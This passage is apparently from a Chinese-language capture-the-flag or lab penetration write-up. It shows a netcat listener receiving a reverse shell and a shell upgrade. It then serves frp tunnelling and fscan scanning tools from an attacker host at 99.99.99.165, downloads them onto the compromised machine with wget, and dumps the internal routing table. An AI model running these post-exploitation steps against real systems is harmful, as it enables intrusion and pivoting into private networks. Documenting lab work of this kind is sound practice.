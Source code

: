 nc监听，获取shell

```bash
 .\nc.exe -lvp 2333
```

再弹一个完整的shell

```
script -qc /bin/bash /dev/null
```

获取flag1

### flag1

![	](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231016134926234.png)

在本机开启一个Web服务

```bash
python -m http.server 7777 --bind 99.99.99.165
```

通过`wget`传递`frp`、`fscan`

```bash
wget http://99.99.99.165:7777/frp-%E5%86%85%E7%BD%91%E7%A9%BF%E9%80%8F%E5%B7%A5%E5%85%B7/frp_0.51.3_linux_amd64/frp_0.51.3_linux_amd64/frpc

wget http://99.99.99.165:7777/frp-%E5%86%85%E7%BD%91%E7%A9%BF%E9%80%8F%E5%B7%A5%E5%85%B7/frp_0.51.3_linux_amd64/frp_0.51.3_linux_amd64/frpc.ini

wget http://99.99.99.165:7777/fscan-%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F%E5%B7%A5%E5%85%B7/fscan
```

查看一下内网环境

```bash
cat /proc/net/fib_trie
```

```
Main:
  +-- 0.0.0.0/0 3 0 4
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 168.0.0.0/5 2 0 2
        |-- 169.254.169.254
           /32 universe UNICAST
        +-- 172.17.0.0/16 2 0 2
           +-- 172.17.0.0/31 1 0 0
              |-- 172.17.0.0
                 /32 link BROADCAST
                 /16 link UNICAST
              |-- 172.17.0.1
                 /32 host LOCAL
           |-- 172.17.255.255
              /32 link BROADCAST
     +-- 192.168.8.0/21 2 0 2
        +-- 192.168.10.0/24 2 0 1
```